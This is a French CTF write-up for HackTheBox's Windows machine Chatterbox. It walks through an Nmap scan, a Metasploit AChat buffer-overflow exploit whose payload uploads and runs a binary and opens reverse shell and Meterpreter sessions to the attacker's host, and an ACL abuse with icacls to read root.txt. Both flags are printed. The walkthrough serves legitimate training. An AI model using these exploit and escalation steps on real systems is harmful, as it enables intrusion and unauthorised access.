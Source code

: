 ```yaml
---
title: "Solution du CTF Chatterbox de HackTheBox"
tags: [CTF, HackTheBox]
---
```


Le CTF *Chatterbox* de [Hack The Box](https://www.hackthebox.eu) est un autre CTF qui tourne sur un système Windows.  

Ce challenge a été quelque peu énervant (laborieux) à scanner en raison du lag de la machine mais une fois les ports ouverts trouvés (après de multiples essais et options de *Nmap*) on finit à parvenir à quelque chose.  

Chauffe Alfred !
----------------

```
Nmap scan report for 10.10.10.74
Host is up (0.024s latency).

PORT     STATE    SERVICE VERSION
80/tcp   filtered http
9255/tcp open     http    AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open     achat   AChat chat system
```

On trouve facilement un exploit pour *Achat* parmi les modules *Metasploit*. Il aura seulement fallut trouver le bon payload pour passer le firewall / antivirus :  

```
msf exploit(windows/misc/achat_bof) > show options

Module options (exploit/windows/misc/achat_bof):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.74      yes       The target address
   RPORT  9256             yes       The target port (UDP)

Payload options (windows/upexec/reverse_tcp_allports):

   Name      Current Setting             Required  Description
   ----      ---------------             --------  -----------
   EXITFUNC  process                     yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.199                yes       The listen address
   LPORT     51571                       yes       The starting port number to connect back on
   PEXEC     /home/devloop/jail/jre.exe  yes       Full path to the file to upload and execute

Exploit target:

   Id  Name
   --  ----
   0   Achat beta v0.150 / Windows XP SP3 / Windows 7 SP1

msf exploit(windows/misc/achat_bof) > exploit

[*] Started reverse TCP handler on 10.10.14.199:51571 
[*] Sending stage (398 bytes) to 10.10.10.74
[*] Uploading executable (73802 bytes)...
[*] Executing uploaded file...
[*] Sending stage (179779 bytes) to 10.10.10.74
[*] Command shell session 1 opened (10.10.14.199:51571 -> 10.10.10.74:49157) at 2018-05-04 11:19:44 +0200
[*] Meterpreter session 2 opened (10.10.14.199:7777 -> 10.10.10.74:49158) at 2018-05-04 11:19:44 +0200

msf exploit(windows/misc/achat_bof) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  1         shell x86/windows                                        10.10.14.199:51571 -> 10.10.10.74:49157 (10.10.10.74)
  2         meterpreter x86/windows  CHATTERBOX\Alfred @ CHATTERBOX  10.10.14.199:7777 -> 10.10.10.74:49158 (10.10.10.74)

meterpreter > sysinfo
Computer        : CHATTERBOX
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: CHATTERBOX\Alfred

c:\users\Alfred>net users
net users

User accounts for \\CHATTERBOX

-------------------------------------------------------------------------------
Administrator            Alfred                   Guest                    
The command completed successfully.

c:\users\Alfred>net user Alfred
net user Alfred
User name                    Alfred
Full Name                    
Comment                      
User's comment               
Country code                 001 (United States)
Account active               Yes
Account expires              Never

Password last set            12/10/2017 10:18:08 AM
Password expires             Never
Password changeable          12/10/2017 10:18:08 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   5/4/2018 5:15:23 AM

Logon hours allowed          All

Local Group Memberships      *Users                
Global Group memberships     *None                 
The command completed successfully.
```

Cet accès est bien sûr suffisant pour obtenir le flag de l'utilisateur :  

```
C:\Users\Alfred\Desktop>type user.txt
type user.txt
72290246dfaedb1e3e3ac9d6fb306334
```

Windows permissions 101
-----------------------

Ce qui est surprenant, c'est qu'avec le compte *Alfred* on puisse aller jusqu'au bureau de l'administrateur. On est cependant bloqué au moment de récupérer le contenu de *root.txt* :  

```
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of c:\Users\Administrator\Desktop

12/10/2017  07:50 PM    <DIR>          .
12/10/2017  07:50 PM    <DIR>          ..
12/10/2017  07:50 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  18,498,449,408 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
Access is denied.

c:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files
```

*Administrator* est le seul utilisateur à disposer de droits sur ce fichier, toutefois il s'avère qu'on dispose nous aussi du contrôle total (F) sur le dossier *Desktop* :  

```
C:\Users\Administrator\Desktop>icacls .
icacls .
. NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
  CHATTERBOX\Administrator:(I)(OI)(CI)(F)
  BUILTIN\Administrators:(I)(OI)(CI)(F)
  CHATTERBOX\Alfred:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```

On peut alors ajouter les permissions qui nous permettront de lire le fichier :  

```
c:\Users\Administrator\Desktop>icacls root.txt /grant Users:F
icacls root.txt /grant Users:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator\Desktop>type root.txt
type root.txt
a673d1b1fa95c276c5ef2aa13d9dcc7c
```


*Published June 17 2018 at 10:00*
